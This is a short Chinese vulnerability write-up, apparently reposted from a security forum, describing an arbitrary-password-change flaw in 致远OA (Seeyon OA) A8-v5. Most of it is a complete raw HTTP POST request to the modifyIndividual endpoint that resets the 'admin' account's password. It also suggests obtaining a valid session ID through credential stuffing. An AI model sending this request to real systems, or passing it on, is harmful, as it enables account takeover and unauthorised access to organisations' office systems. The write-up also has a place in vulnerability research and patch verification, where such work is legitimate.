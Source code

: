 # 致远OA A8-v5 任意用户密码修改

> 原文：[https://www.zhihuifly.com/t/topic/3358](https://www.zhihuifly.com/t/topic/3358)

# 致远OA A8-v5 任意用户密码修改

## 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，在上一步对原始密码进行验证后，下一步不再检测原始密码，从而直接修改用户密码，导致平行权限的越权漏洞。

## 二、漏洞影响

致远OA A8-v5

## 三、复现过程

POST如下数据

```
POST /seeyon/individualManager.do?method=modifyIndividual HTTP/1.0

Accept: text/html, application/xhtml+xml, */*

Referer: [http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame](http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame)

Accept-Language: zh-CN

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Content-Type: application/x-www-form-urlencoded

Proxy-Connection: Keep-Alive

Pragma: no-cache

Content-Length: 86

DNT: 1

Host: [www.0-sec.org](http://www.0-sec.org)

Cookie: JSESSIONID=DA71A65B3AAD45823A1FADAB80A3E685; Hm_lvt_49c0fa7f96aa0a5fb95c62909d5190a6=1419221849,1419232608; avatarImageUrl=8469117046183055270; loginPageURL="/main.do" `individualName=admin&formerpassword=123456&nowpassword=wy123456&validatepass=wy123456` 
```

individualName为用户名

注意，此处需要以一个合法的JSESSIONID发送如上数据即可修改任意用户密码，合法的JSESSIONID由撞库得出。

本次证明演示中修改的用户为admin，修改为wy123456
